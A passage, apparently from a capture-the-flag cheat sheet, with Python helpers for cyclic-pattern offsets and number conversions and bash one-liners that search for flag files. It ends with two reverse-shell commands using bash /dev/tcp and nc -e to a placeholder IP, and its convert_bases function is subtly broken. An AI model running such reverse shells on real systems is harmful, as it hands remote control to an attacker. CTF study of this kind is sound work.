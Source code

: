 ```python
# Find offset in cyclic pattern
def cyclic_find(substring):
    alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    for i in range(len(alphabet)):
        for j in range(len(alphabet)):
            for k in range(len(alphabet)):
                for l in range(len(alphabet)):
                    if alphabet[i] + alphabet[j] + alphabet[k] + alphabet[l] == substring:
                        return i * len(alphabet)**3 + j * len(alphabet)**2 + k * len(alphabet) + l
    return -1
```

### Common Conversions
```python
# Number base conversions
def convert_bases(num_str):
    try:
        # Try different bases
        decimal = int(num_str, 10)
        binary = int(num_str, 2)  
        octal = int(num_str, 8)
        hexadecimal = int(num_str, 16)
        
        print(f"As decimal: {decimal}")
        print(f"As binary: {binary}")
        print(f"As octal: {octal}")
        print(f"As hex: {hexadecimal}")
    except:
        print("Invalid number format")

# ASCII conversions
def ascii_convert(text):
    # String to ASCII values
    ascii_vals = [ord(c) for c in text]
    print(f"ASCII values: {ascii_vals}")
    
    # ASCII values to string
    if all(isinstance(x, int) and 0 <= x <= 127 for x in ascii_vals):
        original = ''.join(chr(x) for x in ascii_vals)
        print(f"As string: {original}")
```

---

## 🔧 One-Liners & Bash Scripts

### File Operations
```bash
# Find files by pattern
find / -name "*flag*" 2>/dev/null
find . -type f -exec grep -l "flag{" {} \; 2>/dev/null

# Extract strings with specific pattern
grep -r "flag{" /path/to/search/
grep -oE "flag\{[^}]+\}" file.txt

# Monitor file changes
inotifywait -m /path/to/watch -e modify,create,delete

# Create reverse shell
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
nc -e /bin/bash 10.0.0.1 4444
```
